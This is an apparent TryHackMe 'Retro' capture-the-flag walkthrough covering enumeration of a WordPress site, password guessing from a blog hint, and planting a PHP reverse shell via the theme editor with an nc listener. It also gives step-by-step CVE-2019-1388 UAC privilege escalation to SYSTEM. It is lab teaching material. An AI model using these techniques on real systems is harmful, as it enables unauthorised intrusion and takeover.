## TryHackMe Room - [Retro](https://tryhackme.com/room/retro)

New high score!

Can you time travel? If not, you might want to think about the next best thing.

Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.

**Note:** There are two distinct paths that can be taken on Retro. One requires significantly less trial and error, however, both will work. Please check writeups if you are curious regarding the two paths. An alternative version of this room is available in its remixed version [Blaster](https://tryhackme.com/room/blaster).

## Enumeration

### Nmap Scan

Starting with a comprehensive nmap scan to identify open ports and services:

```bash
nmap -p- -vv <TARGET_IP> -sV -Pn
```

**Results:**
```
PORT     STATE SERVICE       REASON          VERSION
80/tcp   open  http          syn-ack ttl 128 Microsoft IIS httpd 10.0
3389/tcp open  ms-wbt-server syn-ack ttl 128 Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

We have a web application running on port 80 (Microsoft IIS) and RDP on port 3389. Let's explore the web application first.



**Initial Response:**
```http
HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Sun, 08 Dec 2019 23:52:54 GMT
Accept-Ranges: bytes
ETag: "bfffe59b22aed51:0"
Server: Microsoft-IIS/10.0
Date: Thu, 22 Jan 2026 17:18:31 GMT
Content-Length: 703

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />
<title>IIS Windows Server</title>
<style type="text/css">
</style>
</head>
<body>
<div id="container">
<a href="http://go.microsoft.com/fwlink/?linkid=66138&amp;clcid=0x409"></a>
</div>
</body>
</html>
```

Nothing special on the default page. Let's enumerate web pages using `ffuf`:

### Directory Enumeration

```bash
ffuf -u http://<TARGET_IP>/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 800 -fs 0,703 -fc 401,403
```

**Results:**
```
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://<TARGET_IP>/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 800
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response status: 401,403
 :: Filter           : Response size: 0,703
________________________________________________

<REDACTED>                   [Status: 301, Size: 149, Words: 9, Lines: 2]
:: Progress: [218275/218275] :: Job [1/1] :: 9619 req/sec :: Duration: [0:00:24] :: Errors: 0 ::
```

We found a hidden directory! This answers the first question. Let's visit the endpoint and see what we have.



### WordPress Discovery

In the source code of the webpage, we find:

```html
<script type='text/javascript' src='/<REDACTED>/wp-content/themes/90s-retro/js/jquery.custom.js?ver=20130729'></script>
<script type='text/javascript' src='/<REDACTED>/wp-content/themes/90s-retro/js/navigation.js?ver=20130729'></script>
<script type='text/javascript' src='/<REDACTED>/wp-includes/js/wp-embed.min.js?ver=5.2.1'></script>
```

This confirms that this is a **WordPress application**. Let's use `wpscan` to enumerate as much detail as we can.

### WordPress Enumeration

```bash
wpscan --url http://<TARGET_IP>/<REDACTED> -e -t 16
```

**Results:**
```
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: http://<TARGET_IP>/<REDACTED>/ [<TARGET_IP>]
[+] Started: Thu Jan 22 23:23:49 2026

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Microsoft-IIS/10.0
 |  - X-Powered-By: PHP/7.1.29
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://<TARGET_IP>/<REDACTED>/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] WordPress readme found: http://<TARGET_IP>/<REDACTED>/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://<TARGET_IP>/<REDACTED>/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%

[+] WordPress version 5.2.1 identified (Insecure, released on 2019-05-21).
 | Found By: Rss Generator (Passive Detection)
 |  - http://<TARGET_IP>/<REDACTED>/index.php/feed/, <generator>https://wordpress.org/?v=5.2.1</generator>

[+] WordPress theme in use: 90s-retro
 | Location: http://<TARGET_IP>/<REDACTED>/wp-content/themes/90s-retro/
 | Latest Version: 1.4.10 (up to date)
 | Style Name: 90s Retro

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:03 <=============================================> (10 / 10) 100.00% Time: 00:00:03

[i] User(s) Identified:

[+] wade
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Wade
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] Finished: Thu Jan 22 23:25:06 2026
[+] Requests Done: 3610
[+] Elapsed time: 00:01:16
```

**Key Findings:**
- **Username enumerated:** `wade`
- **Vulnerable WordPress Version:** `5.2.1`

Researching more about WordPress 5.2.1, we find that this version is vulnerable to `WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts`.

## Initial Access

### Exploiting WordPress Vulnerability

So, we visit the URL we found in the wpscan output - `/<REDACTED>/index.php/feed/`:



It downloads a file `zIPc-Jiy`, which contains all the posts on Wade's blog site. The first post has some interesting information:

```xml
<content:encoded>
<p> I can't believe the movie based on my favorite book of all time is going to come out in a few days! Maybe it's because my name is so similar to the main character, but I honestly feel a deep connection to the main character Wade. I keep mistyping the name of his avatar whenever I log in but I think I'll eventually get it down. Either way, I'm really excited to see this movie! </p>
</content:encoded>
```

**Key Hint:** This essentially boils down our password to the in-game name of `Wade Watts` from the movie `Ready Player One`. His online alias was `<REDACTED>`.

So, now let's try the credentials `wade:<REDACTED>` on the `/wp-admin.php` endpoint and see if it works.

The credentials work and we're in!



### Alternative Access via RDP

Now, we need to work towards getting a reverse shell. For which, we'll change the `index.php` page in `Appearance > Theme Editor > index.php`.

Replace the content of the `index.php` file with a [PHP reverse shell script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Update the IP and port:

```php
$ip = '<YOUR_IP>';  // CHANGE THIS
$port = 1337;       // CHANGE THIS
```

Then, hit Update File to save the page.



Now, we need to setup a local listener:

```bash
nc -lnvp 1337
```

Next, we need to trigger the `index.php` page, and then we should get a hit on our nc connection.

**Reverse Shell Attempt:**
```
root@ip-10-49-100-157:~# nc -lnvp 1337
Listening on 0.0.0.0 1337
Connection received on <TARGET_IP> 50386
'uname' is not recognized as an internal or external command,
operable program or batch file.
```

There seemed to be some problem with the reverse shell. So, next what I tried was the other service we found open, i.e. **RDP**.

Trying the same credentials for RDP got us in!

## User Flag

As soon as we log in via RDP, we can see the `user.txt` flag. That's the second answer for the room.



## Privilege Escalation

### CVE-2019-1388 Discovery

Now, we move towards privilege escalation. I was casually exploring the machine when I found 2 things:

1. **Recycle bin had a binary** - `hhupd.exe`
2. **Opened up Chrome and found a CVE bookmarked**



Looks interesting! Let's read more about [CVE-2019-1388](https://sotharo-meas.medium.com/cve-2019-1388-windows-privilege-escalation-through-uac-22693fa23f5f).

With the above walkthrough, everything started to make sense. Next, we'll follow the article to escalate privileges and become SYSTEM.

### Exploiting CVE-2019-1388

**Step 1:** Since we already have the binary, double-click and execute it.


**Step 2:** Click on `Show More Details` as shown in the image above.

**Step 3:** After this, we need to click on `Show information about the publisher's certificate`.



**Step 4:** Click VeriSign Commercial Software Publishers CA, Ok and No.

**Step 5:** A browser is now launched as System with a 404 Verisign website being displayed. Save the webpage by clicking on the gear, File, Save as... You will be prompted with an error "Location is not available." Click OK.



**Step 6:** In the File name field, input `c:\windows\system32\*.*` and press enter.

**Step 7:** Next, search for the `cmd.exe` binary.



**Step 8:** Now right-click and press open. Boom, we have performed privilege escalation!



## Root Flag

Now, head over to `C:\Users\Administrator\Desktop` and we can see the `root.txt` file present there.



Enter:

```cmd
type root.txt
```

That's it! We have solved the challenge.

## References

1. https://sotharo-meas.medium.com/cve-2019-1388-windows-privilege-escalation-through-uac-22693fa23f5f
2. https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

---

## Answers

### Task 1 - Retro

> Can you time travel? If not, you might want to think about the next best thing.

1. **A web server is running on the target. What is the hidden directory which the website lives on?**

   **Ans.** `<REDACTED>`

2. **What is the user flag?**

   **Ans.** `<REDACTED>`

3. **What is the root flag?**

   **Ans.** `<REDACTED>`
